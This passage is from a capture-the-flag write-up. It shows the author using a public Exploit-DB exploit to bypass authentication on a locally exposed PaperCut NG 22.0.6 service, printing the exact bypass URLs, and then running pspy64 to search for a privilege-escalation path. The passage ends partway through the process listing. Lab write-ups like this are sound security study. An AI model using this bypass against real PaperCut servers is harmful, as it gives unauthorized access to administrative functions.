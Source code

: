 ```bash
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Apr 22 18:19:47 2024 from 10.8.1.18
papercut@bamboo:~$
```

We can access [http://127.0.0.1:9191/](http://127.0.0.1:9191/)
But we need credentials, bypass login etc to do something.

After spending some time researching, we found this:

[https://www.exploit-db.com/exploits/51391](https://www.exploit-db.com/exploits/51391)

This appears to be an auth bypass, with our version of PaperCut NG/MG.

Running the exploit & we got this:

```bash
vaillant@sss ~
❯ python Downloads/51391.py                                       

Enter the ip address: 127.0.0.1
Version: 22.0.6
Vulnerable version
Step 1 visit this url first in your browser: http://127.0.0.1:9191/app?service=page/SetupCompleted
Step 2 visit this url in your browser to bypass the login page : http://127.0.0.1:9191/app?service=page/Dashboard
```

It works !
We bypassed the login.

On this last step, I was spoiled by a friend, so I very quickly understood what to do.
I set up a spy to see what was happening on the machine when I was using the PaperCut NG, and completely randomly I came across this:

```bash
(remote) papercut@bamboo:/home/papercut$ ./pspy64
pspy - version: v1.2.1 - Commit SHA: f9e6a1590a4312b9faa093d8dc84e19567977a6d


     ██▓███    ██████  ██▓███ ▓██   ██▓
    ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
    ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
    ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
    ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
    ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
    ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
    ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                   ░           ░ ░
                               ░ ░

Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scanning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
Draining file system events due to startup...
done
2024/04/22 18:30:20 CMD: UID=1001  PID=1864   | ./pspy64
2024/04/22 18:30:20 CMD: UID=0     PID=1832   |
2024/04/22 18:30:20 CMD: UID=1001  PID=1791   | -bash
2024/04/22 18:30:20 CMD: UID=1001  PID=1790   | sshd: papercut@pts/1                                                                                     
2024/04/22 18:30:20 CMD: UID=0     PID=1732   | sshd: papercut [priv]
2024/04/22 18:30:20 CMD: UID=0     PID=2      |
2024/04/22 18:30:20 CMD: UID=0     PID=1      | /sbin/init
```